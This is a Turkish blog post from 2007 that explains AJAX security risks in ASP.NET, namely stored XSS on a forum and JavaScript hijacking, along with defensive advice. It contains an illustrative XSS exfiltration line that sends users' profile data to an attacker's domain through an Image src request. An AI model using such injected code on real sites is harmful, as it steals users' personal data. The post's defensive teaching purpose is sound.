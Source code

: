# AJAX ve Güvenlik Sorunları
**AJAX** artık neredeyse her web projesinde kullanılır oldu. Bazı
projelerde ufak noktalarda kendini gösteren AJAX yeni nesil projelerde
ise neredeyse tüm iş katmanına yayılmış durumda. Bu noktada maalesef
AJAX'ın getirdiği heyecanın kısmi sersemliği ile güvenlik konusunda
kaygılar unutulmuş durumda. Oysa eskiden beridir **XSS
(Cross-Site-Scripting)** bizim JavaScript tarafındaki en önemli
düşmanlarımızdan. Ne kadar ilginçtir ki AJAX'ın göbeğinde de JavaScript
bulunuyor.

**XSS yeni bir güvenlik sorunu değil ki!?**

Kesinlikle değil. Cross-Site-Scripting uzun süredir bilinen, tanınan ve
koruma yöntemleri geliştirilmiş bir sorun. Fakat **XSS**'in yaratacağı
sorunlar AJAX ile binlerce kat büyüyor. Nasıl mı oluyor? Hemen bir örnek
üzerinden gidelim. Varsayalım bir forum uygulaması programlıyorsunuz ve
kullanıcıların attıkları mesajların içeriğini kontrol etmiyorsunuz.
Ziyaretçilerden biri mesajının arasına kendi hazırlamış olduğu
JavaScript kodunu yerleştirdi ve mesajı yolladı. Mesajı direk sitede
gösterdiğinizi varsayalım (Kötü bir programcısınız :)). Söz konusu
kullanıcının gönderdiği JavaScript kodu tüm kullanıcıların
bilgisayarında çalışacaktır. Bu noktada basit bir saldırı tipi olarak
uygun JavaScript kodu ile o sayfaya giren tüm kullanıcıların başka bir
adrese yönlendirilmesinden bahsedebiliriz (**fishing**). Forumunuzda
mesajların gönderimi ve gösterimi için AJAX kullandığınızı varsayalım.
Kullandığınız AJAX kodu, yani JavaScript kodunuz tüm kullanıcılara
gidiyor ve kaynak içerisinde incelenebiliyor. Biraz önce bahsettiğimiz
"kötü ziyaretçi" sizin AJAX metodlarınızı kullanarak forumunuza mesaj
atan bir JavaScript fonksiyonu yazarak mesajına eklerse neler olur?
Mesajın gözüktüğü sayfayı açan herkes o JavaScript metodunu çalıştırmış
olur böylece bir anda forumunuzdaki her kullanıcının yüzlerce mesaj
atması gibi bir durumla karşılaşabilirsiniz. Tüm bu işlem AJAX tarafında
yapıldığı için de kimse farkına varmayacaktır.

Aynı forum uygulamamızla ilgili başka bir durumdan bahsedelim. Forum
uygulamasını programlarken kullanıcıların bilgilerini de
değiştirebilecekleri bir sayfa hazırladınız. Tüm kullanıcıları bilgileri
AJAX ile sayfaya yerleşiyor ve kaydedilebiliyor. Tabi ki tüm bu AJAX
metodlarınız foruma mesaj atılan ve mesajların gösterildiği metodlar ile
sayfada yer alıyor. Kötü kullanıcı Şerafettin :) sitenizde
kullanıcıların bilgilerini profil sayfasına yerleştiren, yani
veritabanından çeken AJAX metodlarını kullanan bir JavaScript komutu
yazarak mesajına ekleyip gönderdi. Her kullanıcı forumda gezerken
Şerafettin'in yazdığı kod söz konusu kullanıcının bilgileri alacak. Peki
sonra ne yapacak? Bu bilgisi aşağıdaki gibi klasik bir teknikle kendi
sitesine aktaracak :)

<span> (<span style="color: blue;">new</span> Image()).src = <span
style="color: rgb(163, 21, 21);">
"http://serafettin.com/bilgigeldi.php?data="</span> +
ProfilBilgisi;</span>

Gözümüzün önünde tüm kullanıcıların profil bilgileri Şerafettin'in
mesajının bulunduğu sayfaya girdikleri gibi elden gidiyor.

XSS'i engellemek, yani kullanıcıların web sitenize gönderdiği içeriği
filtrelemek için **Microsoft** tarafından **ASP.NET** geliştiricileri
için hazırlanmış olan [**Anti-Cross Site
Script**](http://www.microsoft.com/downloads/details.aspx?familyid=9a2b9c92-7ad9-496c-9a89-af08de2e5982&displaylang=en)
kütüphanesini kullanabilirsiniz.

**JavaScript Hijacking**

Bir diğer AJAX sorunlarıdan biri de sitemiz dahilindeki AJAX
metodlarının başka sitelerde de kullanılabilmesi. Eğer AJAX
metodlarınızı harici bir JavaScript dosyasına yerleştirerek sayfanıza
linklediyseniz aynı linklemeyi başka siteler de yapabilir. Farklı alan
adları arasında XMLHttpRequest objelerinin çalışmaması ile ilgili
güvenlik düzenlemeleri olmasına karşın bu durumla ilgili herhangi bir
düzenleme yapmak pek mümkün değil.

<span style="color: blue;"> \<</span><span
style="color: rgb(163, 21, 21);">script</span><span> <span
style="color: red;"> language</span><span
style="color: blue;">="javascript"</span> <span style="color: red;">
src</span><span
style="color: blue;">="http://www.deneme.com/WebService.asmx/js"\>\</</span><span
style="color: rgb(163, 21, 21);">script</span><span
style="color: blue;">\></span></span>

Yukarıdaki kodu kullanarak deneme.com sitesinde kullanılmak üzere
hazırlanmış JavaScript metodlarını herhangi bir sitede, sayfada
kullanabilirsiniz. Dikkat ederseniz özellikle örnek içerisinde
**ScriptService** özelliğine sahip bir ASP.NET web servisi kullandım.
Bizim genelde ASP.NET AJAX tarafında sayfamıza linklediğimiz harici AJAX
metodları web servislerinde yer alıyor.\

Peki bu güvenlik açığına karşı ne yapabiliriz? Herhangi birşey yapmanız
gerekmiyor :) Microsoft bu açığı öngörmüş ve HTTP GET metodlarını web
metodlarına kapatmış. Yukarıdaki kod kullanılarak yapılacak bir talep
GET metodu ile yapılacaktır, herhangi bir şekilde POST metodu ile
yapılması mümkün değil. Siz web methodlarınıza **UseHttpGet:=True**
özelliği vermediğiniz sürece herhangi bir sorun olmayacaktır.

**Sonuç**

Benim tavsiyem AJAX kullanırken özellikle veri alımında, yani
veritabanına kaydedilecek veriyi kullanıcıdan alırken kullandığınız
tekniklerde dikkatli davranmanız. Eğer **Forms Authentication**
kullanıyorsanız web servislerinizi de korumaya almanızda fayda var. Tüm
bu tekniklerin haricinde sunucu taraflı sistem yükü fazla olsa da
Session bazlı ID'ler tanımlayarak sayfanızdaki AJAX işlemlerine gerçek
zamanlı parametre olarak ekleyerek gelen taleplerin sizin sisteminizden
gelip gelmediğini de kontrol edebilirsiniz. Son olarak XSS'e karşı
korunmayı da unutmayın.\



*Bu yazi http://daron.yondem.com adresinde, 2007-4-20 tarihinde yayinlanmistir.*
